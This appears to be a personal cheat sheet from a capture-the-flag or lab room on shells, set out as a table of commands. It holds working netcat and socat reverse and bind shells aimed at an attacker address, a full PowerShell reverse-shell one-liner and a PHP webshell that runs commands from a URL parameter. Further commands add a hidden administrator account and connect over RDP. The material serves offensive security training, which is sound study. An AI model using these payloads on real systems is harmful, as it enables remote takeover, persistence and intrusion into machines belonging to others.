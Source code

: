 
_The important take away from this task:_

Reverse and Bind shells are an essential technique for gaining remote code execution on a machine, however, they will never be as fully featured as a native shell. Ideally we always want to escalate into using a "normal" method for accessing the machine, as this will invariably be easier to use for further exploitation of the target.

# Summary

|OS|Previous steps|Attacker's machine|Target's machine|Result|
|--|--|--|--|--|
|Linux|Get a custom webshell|1. `nc -lvnp <port>`|2. `nc <attck-ip> <port> -e /bin/bash`|If we enter on the url a parameter when uploading the webshell like `webshell.php?cmd=nc <attck-ip> <port> -e /bin/bash` we got access|
|Linux|1. Get a custom webshell 2. Login ssh|1. `nc -lvnp <port>`|2. `nc <attck-ip> <port> -e /bin/bash`|You get a reverse shell|
|Linux|1. Login ssh|2. `nc <target ip> <target port>`|1. `nc -lvnp <port> -e /bin/bash`|You get a bind shell|
|Linux|If `-e/bin/bash` disn't work, try this|2. `nc <target ip> <target port>` |1. `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f or* /bin/sh >/tmp/f 2>&1; rm /tmp/f`|You get a bind shell|
|Linux||1. `socat TCP-L:<port> -`|2. `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`|You get a reverse shell with Socat|
|Linux||2. `socat TCP:<TARGET-IP>:<TARGET-PORT> -`|1. `socat TCP-L:<PORT> EXEC:”bash -li”`|You get a bind shel with Socat|
|Linux||1. `socat TCP-L:<port> FILE:`tty`,raw,echo=0`|2. `socat TCP:<attacker-ip>:<attacker-port> EXEC:”bash -li”,pty,stderr,sigint,setsid,sane`|You get a fully stable reverse shell with Socat|
|Windows|Create a webshell with the windows script below|1. `nc -lvnp 12345`|2. Look down ||




- or*: poner un | en lugar de or: `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
- Windows target's part: ``powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

## Commands for stabilizing shell

Linux:
1. `python -c 'import pty;pty.spawn("/bin/bash")'`
2. `export TERM=xterm`
3. Background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`

Windows:
1. Create a new user: `net user <username> <password> /add`
2. Add it to the administrators group: `net localgroup administrators <username> /add`
3. Login over RDP or WinRM: `xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:MACHINE_IP /u:Administrator /p:'TryH4ckM3!'`

## Windows simple Webshell script

```php
<?php   
    if(isset($_GET[‘cmd’])) {   
        system($_GET[‘cmd’]);   
    }  
?>
```
